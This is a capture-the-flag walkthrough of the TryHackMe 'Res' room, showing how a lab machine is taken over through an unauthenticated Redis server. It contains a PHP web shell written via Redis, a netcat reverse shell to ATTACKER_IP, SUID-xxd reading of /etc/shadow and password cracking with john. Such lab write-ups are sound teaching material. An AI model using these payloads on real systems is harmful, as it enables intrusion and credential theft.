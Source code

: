 ```yaml
---
title: "Res"
tags:
  - Easy
  - Linux
  - nmap
  - redis
  - xxd
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |    Easy    |  |   10.10.46.25 |  | [Res](https://tryhackme.com/room/res) |  |

---

### [ Scan the machine, how many ports are open? ]

As always, we start off with a `nmap` scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.46.25
```

![screenshot1](../assets/images/res/screenshot1.png)

The results show **2** ports open

---

### [ What's is the database management system installed on the server? ]

**Redis** is installed on the server.

---

### [ What port is the database management system running on? ]

It is installed on port **6379**.

---

### [ What's is the version of management system installed on the server? ]

From the nmap scan, we can see that the version is **6.0.7**.

---

### [ Compromise the machine and locate user.txt ]

After doing some research online, I found this [website](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) which teaches us how to obtain remote code execution via a Redis server:

![screenshot2](../assets/images/res/screenshot2.png)

We can connect to the Redis server using `redis-cli` (Installation: `sudo apt install redis-tools`):

```
redis-cli -h 10.10.46.25 -p 6379
```

By default, Redis servers do not require authentication to login. Fortunately, this is the case for us as we can log in without needing to supply any credentials!

![screenshot5](../assets/images/res/screenshot5.png)

Next, we need to set the working directory of our Redis client to the root directory of the web server.

**HTTP Web server on port 80:**

![screenshot3](../assets/images/res/screenshot3.png)

From the webpage, we know that the web server is running on Apache. A common root directory of Apache servers is **/var/www/html**.

We then follow the exploit instructions like so:

```
// in redis-cli

config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

This will create a new PHP file called **redis.php** in the /var/www/html directory of our target machine. We then set a key 'test' with a value of `<?php phpinfo(); ?>`

To test whether we can access this redis.php file and run the code, we visit `http://10.10.46.25/redis.php`:

![screenshot4](../assets/images/res/screenshot4.png)

Nice! It works :smile: 

Now let's change the PHP code so that we can inject some commands:

```  
// in redis-cli

set test "<?php system($_GET['cmd']); ?>"
save
```

When this PHP code runs, it will get the **cmd** parameter from the GET request sent to the web server. **system()** will then execute that command on the machine.

We then set up a netcat listener running on a port of our choice.

Finally, we can open up a reverse shell by visiting `http://10.10.46.25/redis.php?cmd=nc ATTACKER_IP PORT -e /bin/bash`

![screenshot6](../assets/images/res/screenshot6.png)

And we're in!

Visiting the /home directory, we can see that there is one other account: **vianka**

The **user flag** can be found in vianka's home directory:

![screenshot7](../assets/images/res/screenshot7.png)

---

### [ What is the local user account password? ]

Let's do some manual enumeration.

Looking through vianka's files yielded nothing of interest. There was also nothing useful in directories like /opt and /tmp.

Next, I decided to search for **SUID-bit** set files:

```
find / -type f -perm /u=s 2>/dev/null
```

![screenshot8](../assets/images/res/screenshot8.png)

We have an interesting file: `xxd`

Looking on [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), we can find the following way to exploit this program:

![screenshot9](../assets/images/res/screenshot9.png)

It seems that we can use this program to read any file that we like on the system. Let's follow the exploit steps and read **/etc/shadow**:

```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```

![screenshot10](../assets/images/res/screenshot10.png)

And we have found vianka's hashed password (at the bottom).

We then use `john` to crack the password:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

![screenshot11](../assets/images/res/screenshot11.png)

vianka's password:

> beautiful1

---

### [ Escalate privileges and obtain root.txt ]

We can now log into vianka's account.

![screenshot12](../assets/images/res/screenshot12.png)

Let's check vianka's **sudo privileges**:

```
sudo -l
```

![screenshot13](../assets/images/res/screenshot13.png)

Turns out vianka has complete sudo privileges, meaning they can run any program as any user, including root!

We can then obtain the root flag directly from the root home directory using `sudo`:

```
sudo cat /root/root.txt
```

![screenshot14](../assets/images/res/screenshot14.png)

